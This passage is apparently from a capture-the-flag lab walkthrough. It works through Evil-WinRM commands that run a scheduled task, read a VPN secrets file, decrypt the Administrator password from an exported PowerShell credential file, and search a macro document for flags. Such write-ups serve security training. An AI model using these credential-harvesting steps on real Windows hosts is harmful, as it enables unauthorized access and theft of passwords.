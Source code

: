 ### FLAG 017: Scheduled Task (25 points)
**Location**: DailyUpdate scheduled task
```bash
# In Evil-WinRM session:
# View task details
*Evil-WinRM* PS C:\> schtasks /query /tn DailyUpdate /fo LIST /v | findstr "Task To Run"

# Run the task
*Evil-WinRM* PS C:\> schtasks /run /tn DailyUpdate

# Wait a moment, then read the flag
*Evil-WinRM* PS C:\> Get-Content C:\temp\task_ws.txt
# Output: FLAG{VENOMOTH43501590}
```

---

## Phase 7: Configuration and Credential Storage

### FLAG 018: VPN Configuration (20 points)
**Location**: VPN configuration file
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> Get-Content C:\Users\Public\Documents\Credentials\vpn.txt
# Output contains: Secret: FLAG{DUGTRIO06075219}
```

### FLAG 019: PowerShell Credential Object (25 points)
**Location**: Exported credential XML
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> Get-Content C:\Users\Public\Documents\Credentials\admin.xml | Select-String FLAG
# Output: <!-- Flag: FLAG{PERSIAN04938649} -->

# Also extract the stored credentials:
*Evil-WinRM* PS C:\> $cred = Import-Clixml C:\Users\Public\Documents\Credentials\admin.xml
*Evil-WinRM* PS C:\> $cred.GetNetworkCredential() | Format-List
# Shows Administrator password
```

### FLAG 020: Macro Document Analysis (15 points)
**Location**: Malicious macro document
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> cd C:\Users\Public\Documents\Important

# Read the macro document as binary and convert to text
*Evil-WinRM* PS C:\> $bytes = [System.IO.File]::ReadAllBytes("C:\Users\Public\Documents\Important\Invoice.docm")
*Evil-WinRM* PS C:\> $text = [System.Text.Encoding]::ASCII.GetString($bytes)
*Evil-WinRM* PS C:\> $text | Select-String FLAG
# Output: ' Flag: FLAG{GOLDUCK70820258}
```

